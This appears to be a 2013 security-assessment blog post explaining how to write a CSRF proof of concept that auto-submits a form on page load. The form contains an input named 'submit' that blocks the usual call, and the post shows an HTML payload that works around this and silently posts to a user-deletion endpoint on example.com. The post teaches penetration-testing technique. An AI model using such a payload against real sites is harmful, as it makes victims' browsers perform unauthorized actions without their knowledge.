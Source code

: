 ```yaml
---
title: "Auto submit (onload) a HTML Form with an input field called 'submit' - CSRF PoC"
date: 2013-11-05
categories:
- appsec
tags:
- csrf
- html

thumbnailImagePosition: left
thumbnailImage: /img/auto-submit-a-html-form-with-an-input-field-called-submit---csrf-poc/1.png
---
```


Creating a auto submit (body onload) form when an input button called submit exists. Very common CSRF exploit PoC.

<!--more-->

This post describes a fairly common scenario I encounter during web application security assessments. Imagine a HTML form with the following code:

```
<form id="myForm" action="http://example.com/deleteuser.php" method="POST" name="myForm">
<input id="val1" name="val1" type="text" value="value1" />
<input id="val2" name="val2" type="text" value="value2" />
<input id="val3" name="val3" type="text" value="value3" />
<input id="submit" name="submit" type="text" value="Continue" />
</form>
```

This form is vulnerable to CSRF due to the lack of a unique token. When I want to build a PoC for CSRF I normally use the `<body onload=formname.submit()` to demonstrate that the form is indeed vulnerable to CSRF and the attack can be stealthily performed using body onload (no user interaction required, apart from page load).

In this case, the presence of an input field whose name and id is `submit` complicates matters. The `submit()` function of the `myForm` is completely overwritten by the input field and a call to `myForm.submit()` would yield a `myForm.submit is not a function` error.

To be able to submit data onload of the body or iframe, we would somehow need to submit the `myForm` without explicitly calling the submit function. The simplest way of doing this would be by converting the input field with name and id `submit` from text / hidden to type `submit`. This will however require a user to click on the button (or use JS to perform the click).

I posted this question on StackOverflow and was not disappointed. As [Quentin answered my query on StackOverflow](http://stackoverflow.com/questions/18937990/javascript-form-submit-with-a-field-called-submit), we need to steal the submit function from another form. So the final CSRF PoC, complete with stealth and auto trigger looks like this:

```
<html>
    <body onload="document.createElement('form').submit.call(document.getElementById('myForm'))">
        <form id="myForm" name="myForm" action="http://example.com/deleteuser.php" method="POST">
            <input type=hidden name="val1" id="val1" value="value1"/>
            <input type=hidden name="val2" id="val2" value="value2"/>
            <input type=hidden name="val3" id="val3" value="value3"/>
            <input type=hidden name="submit" id="submit" value="Continue"/>
        </form>
    </body>
</html>
```

Happy Hacking!

---